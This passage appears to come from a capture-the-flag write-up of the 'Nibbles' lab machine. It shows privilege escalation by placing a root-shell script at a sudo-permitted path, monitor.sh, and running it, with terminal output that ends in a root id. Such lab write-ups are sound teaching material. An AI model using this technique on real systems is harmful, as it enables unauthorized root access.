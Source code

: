 So we can execute a file called monitor.sh as root with sudo. The file does not seem to exist in the users directory.

So lets simply create the filestructure and a malicious file that will spawn usa root shell. 

I had some issues creating the file on the host, so I ended up creating on locally on my attacking box and transfering it to the victim.

Then we just run the file with sudo.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod 755 monitor.sh
chmod 755 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# id
id
uid=0(root) gid=0(root) groups=0(root)
```

